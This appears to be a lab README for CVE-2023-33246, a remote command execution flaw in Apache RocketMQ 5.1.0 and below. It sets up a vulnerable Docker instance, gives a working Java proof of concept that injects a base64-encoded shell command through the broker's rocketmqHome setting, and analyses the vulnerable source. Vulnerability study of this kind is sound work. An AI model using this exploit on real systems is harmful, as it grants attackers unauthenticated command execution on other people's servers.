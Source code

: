 # Apache RocketMQ Remote Command Execution (CVE-2023-33246)

[中文版本(Chinese version)](README.zh-cn.md)

RocketMQ is a distributed messaging and streaming platform with low latency, high performance and reliability, trillion-level capacity and flexible scalability.

For RocketMQ versions 5.1.0 and below, under certain conditions, there is a risk of remote command execution. Several components of RocketMQ, including NameServer, Broker, and Controller, are leaked on the extranet and lack permission verification, an attacker can exploit this vulnerability by using the update configuration function to execute commands as the system users that RocketMQ is running as. Additionally, an attacker can achieve the same effect by forging the RocketMQ protocol content. To prevent these attacks, users are recommended to upgrade to version 5.1.1 or above for using RocketMQ 5.x or 4.9.6 or above for using RocketMQ 4.x.

References:

- <https://lists.apache.org/thread/1s8j2c8kogthtpv3060yddk03zq0pxyp>
- <https://github.com/I5N0rth/CVE-2023-33246>

## Start

Use following command to start a RocketMQ 5.1.0:

```shell
docker compose up -d
```

## Exploit

Use `IDEA` , `Eclipse` or `IDE` to create a new `Maven` project, import dependency:

```xml
<dependencies>
    <!-- https://mvnrepository.com/artifact/org.apache.rocketmq/rocketmq-tools -->
    <dependency>
        <groupId>org.apache.rocketmq</groupId>
        <artifactId>rocketmq-tools</artifactId>
        <version>5.1.0</version>
    </dependency>
</dependencies>
```

PoC：

```java
package org.example;

import org.apache.rocketmq.client.exception.MQClientException;
import org.apache.rocketmq.tools.admin.DefaultMQAdminExt;
import java.util.Base64;
import java.util.Properties;

public class App {
    public static void main(String[] args) throws Exception {
        String targetHost = "your-ip";
        String targetPort = "10911";

        String targetAddr = String.format("%s:%s",targetHost,targetPort);
        Properties props = new Properties();
        props.setProperty("rocketmqHome", getCmd("touch /tmp/success"));
        props.setProperty("filterServerNums", "1");
        DefaultMQAdminExt admin = new DefaultMQAdminExt();
        admin.setNamesrvAddr("0.0.0.0:12345");
        admin.start();
        admin.updateBrokerConfig(targetAddr, props);
        Properties brokerConfig = admin.getBrokerConfig(targetAddr);
        System.out.println(brokerConfig.getProperty("rocketmqHome"));
        System.out.println(brokerConfig.getProperty("filterServerNums"));
        admin.shutdown();
    }

    private static String getCmd(String cmd) {
        String cmdBase = Base64.getEncoder().encodeToString(cmd.getBytes());
        return "-c $@|sh . echo echo \"" + cmdBase + "\"|base64 -d|bash -i;";
    }
}

```

After the console successfully outputs the new configuration, please wait for about 30 seconds and the `touch /tmp/success` has been executed:

![](screenshot.png)

## Simple Analysis

Why modify the `filterServerNums` property: If the configured `filterServerNums` is 0, the calculated `more` will also be 0, so it is not possible to enter the `callShell` method to execute commands.

```java
public void createFilterServer() {
    int more =
        this.brokerController.getBrokerConfig().getFilterServerNums() -
        this.filterServerTable.size();
    String cmd = this.buildStartCommand();
    for (int i = 0; i < more; i++) {
        FilterServerUtil.callShell(cmd, log);
    }
}

public static void callShell(final String shellString, final Logger log) {
    Process process = null;
    try {
        String[] cmdArray = splitShellString(shellString);
        process = Runtime.getRuntime().exec(cmdArray);
        process.waitFor();
        log.info("CallShell: <{}> OK", shellString);
    } catch (Throwable e) {
        log.error("CallShell: readLine IOException, {}", shellString, e);
    } finally {
        if (null != process)
            process.destroy();
    }
}
```

Why modify the `rocketmqHome` attribute: When building a command, the `splitShellString` method is ultimately called to split the parameters according to spaces. Therefore, it cannot be a `NamesrvAddr` parameter, but can only be the starting `rocketmqHome` parameter. However, due to parameter segmentation rules, stricter commands and clever techniques are required to execute.

```java
private String buildStartCommand() {
    String config = "";
    if (BrokerStartup.CONFIG_FILE_HELPER.getFile() != null) {
        config = String.format("-c %s",
        BrokerStartup.CONFIG_FILE_HELPER.getFile());
    }
    if (this.brokerController.getBrokerConfig().getNamesrvAddr() != null) {
        config += String.format(" -n %s",
        this.brokerController.getBrokerConfig().getNamesrvAddr());
    }
    if (NetworkUtil.isWindowsPlatform()) {
        return String.format("start /b %s\\bin\\mqfiltersrv.exe %s",
        this.brokerController.getBrokerConfig().getRocketmqHome(),
        config);
    } else {
        return String.format("sh %s/bin/startfsrv.sh %s",
        this.brokerController.getBrokerConfig().getRocketmqHome(),
        config);
    }
}
```
